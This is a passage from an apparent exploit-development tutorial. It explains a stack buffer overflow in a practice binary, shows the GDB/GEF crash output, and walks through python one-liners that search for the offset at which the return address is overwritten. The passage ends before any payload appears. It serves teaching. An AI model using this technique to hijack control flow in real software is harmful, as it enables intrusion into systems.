 ```sh
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Note: The above instance of GDB is running the [GDB Enhanced Features (GEF)](https://gef.readthedocs.io/en/master/) plugin, which adds features that assist exploit developers.

Let's take a look at what is going on here. The program sent a `SIGSEGV` signal after it failed to execute the `ret` instruction at line `main+114`. Recall that the `ret` instruction works by trying to execute a `pop rip` instruction. If `rsp` is currently pointing to a bunch of A's instead of the return address, then when the `ret` instruction is executed, the program will attempt to store `0x4141414141414141` (the ASCII code for eight A's) into `rip`. Since the program realizes that `0x4141414141414141` is not an executable address, it fails to load the value into `rip` and instead sends a `SIGSEGV` signal.

In other words, when we overflowed the `pass` buffer with 100 A's, we ended up modifying other values on the stack as well. The buffer overflow allowed us to change the value of the return address with A's, and when the `ret` instruction was executed, the program attempted to set `rip` to the invalid address `0x4141414141414141`, causing a segfault. 

## Controlling the Return Address

Now we know that we can modify the return address to be a bunch of A's. Can we use this idea to set the return address to be any arbitrary value? Yes we can! We simply have to figure out the minimum number of A's that we need to send to the program in order to get it to crash. Then, we can type in the arbitrary value that we want to set the return address to right after the A's.

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*50)" > test

$ ./password < test
Enter the password: Invalid password.
zsh: segmentation fault  ./password < test

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*25)" > test

$ ./password < test
Enter the password: Invalid password.
zsh: segmentation fault  ./password < test

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*20)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*21)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*22)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*23)" > test

$ ./password < test
Enter the password: Invalid password.

$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*24)" > test

$ ./password < test
Enter the password: Invalid password.
```
